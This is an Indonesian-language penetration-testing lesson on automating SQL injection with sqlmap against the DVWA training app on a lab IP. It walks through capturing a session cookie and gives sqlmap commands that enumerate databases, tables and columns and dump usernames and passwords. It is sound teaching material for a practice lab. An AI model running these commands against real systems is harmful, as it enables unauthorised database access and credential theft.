







# Lesson 7: Automate SQL Injection with SqlMap

1. Didalam website DVWA, pilih tab SQL Injection.

2. Nyalakan add-ons Temper Data di browser.

3. Masukkan 1 pada form User ID, kemudian submit. Sebuah pop-up akan muncul, hilangkan centang untuk continuous temper. Kemudian klik submit.


4. Pilih data kedua, kemudian salin bagian referer dan cookienya.


5. Paste ke notepad, seharusnya semuanya akan terlihat seperti dibawah ini. Didalamnya akan ada PHPSESSID yang akan kita gunakan dalam perintah berikutnya.


6. Pindah ke folder dimana sqlmap berada (/pentest/database/sqlmap). Jalankan sqlmap dnegan perintah berikut ini.
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -b --current-db --current-user
```


7. Mendapatkan daftar dari semua database yang ada:
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" --dbs
```


8. Mendapatkan semua tabel dan konten di database dvwa:
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -D dvwa --tables
```


9. Mendapatkan semua column yang ada di dalam tabel users di database dvwa:
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -D dvwa -T users --columns
```


10. Mendapatkan semua user dan passwordnya dari database dvwa:
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -D dvwa -T users -C user,password --dump
```
pilih "y" atau Y untuk semua pilihan dan kosongkan dictionary lokasi.


